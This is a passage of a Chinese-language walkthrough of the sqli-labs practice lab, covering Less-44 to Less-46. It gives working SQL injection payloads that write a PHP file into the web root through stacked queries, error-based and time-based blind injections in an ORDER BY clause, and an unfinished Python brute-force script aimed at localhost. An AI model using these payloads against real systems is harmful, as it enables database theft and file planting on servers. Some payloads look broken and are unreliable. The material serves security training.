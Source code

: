```sql
login_password=1' or 1=1;select '<?=phpinfo();?>' into outfile '/var/www/html/Less-44/1.php';%23&login_user=admin&mysubmit=Login
```

## Less-45

漏洞测试变成代码审计了（x），不想挨个测了，我直接看源码

![86](/medias/sqli-labs/86.png)


```sql
login_password=1') or 1=1;select '<?=phpinfo();?>' into outfile '/var/www/html/Less-45/1.php';%23&login_user=admin&mysubmit=Login
```

## Less-46 order by注入

order by注入，举例源码

```php
$sql = "SELECT * FROM users ORDER BY $id";
$result = mysql_query($sql);
```

### order by + 数字

order by后的参数id可以作为一个注入点，可以尝试使用`?sort=1 desc`、`?sort=1 asc`，来检测order by后能不能拼接参数，构造一些sql语句，爆出数据

```sql
?sort=1 desc
?sort=1 asc
```

尝试报错注入

```sql
?sort=updatexml(1,concat(0x7e,,0x7e),1)
?sort=extractvalue(1,concat(0x7e,0x7e))
```

![87](/medias/sqli-labs/87.png)

![88](/medias/sqli-labs/88.png)


时间盲注，页面进入加载状态

```sql
?sort=if(1=1,sleep(5),sleep(5))
```

![89](/medias/sqli-labs/89.png)

写个时间盲注脚本

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-46/"
i = 1
print("脚本正在运行.......")
while True:
    
```